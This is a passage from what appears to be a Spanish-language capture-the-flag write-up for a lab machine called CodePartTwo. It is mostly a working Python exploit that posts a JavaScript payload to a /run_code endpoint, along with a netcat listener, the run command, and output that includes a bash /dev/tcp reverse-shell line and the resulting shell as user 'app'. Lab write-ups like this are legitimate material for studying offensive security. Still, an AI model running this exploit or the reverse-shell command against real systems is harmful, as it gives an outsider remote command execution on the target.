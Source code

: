 ```python
    "No se encontró Popen";
}}
"""

# Preparar y enviar la solicitud
url = f'{TARGET_URL}/run_code'
payload = {"code": js_code}
headers = {"Content-Type": "application/json"}

print(f"[+] Enviando payload a {TARGET_URL}")
print(f"[+] Reverse shell hacia {ATTACKER_IP}:{ATTACKER_PORT}")
print(f"[+] Comando: {reverse_shell_cmd}")

try:
    r = requests.post(url, data=json.dumps(payload), headers=headers, timeout=10)
    print(f"[+] Respuesta del servidor: {r.status_code}")
    print(f"[+] Contenido: {r.text}")
except requests.exceptions.RequestException as e:
    print(f"[-] Error de conexión: {e}")
except Exception as e:
    print(f"[-] Error inesperado: {e}")
```

Vamos a ponernos a la escucha antes de ejecutarlo:

```shell
nc -lvnp <PORT>
```

Ahora vamos a ejecutarlo de esta forma:

```shell
python3 exploit.py
```

Info:

```
[+] Enviando payload a http://10.10.11.82:8000
[+] Reverse shell hacia 10.10.14.85:7755
[+] Comando: bash -i >& /dev/tcp/10.10.14.85/7755 0>&1
[-] Error de conexión: HTTPConnectionPool(host='10.10.11.82', port=8000): Read timed out. (read timeout=10)
```

Si volvemos a donde tenemos la escucha:

```
listening on [any] 7755 ...
connect to [10.10.14.85] from (UNKNOWN) [10.10.11.82] 39374
bash: cannot set terminal process group (876): Inappropriate ioctl for device
bash: no job control in this shell
app@codeparttwo:~/app$ whoami
whoami
app
```

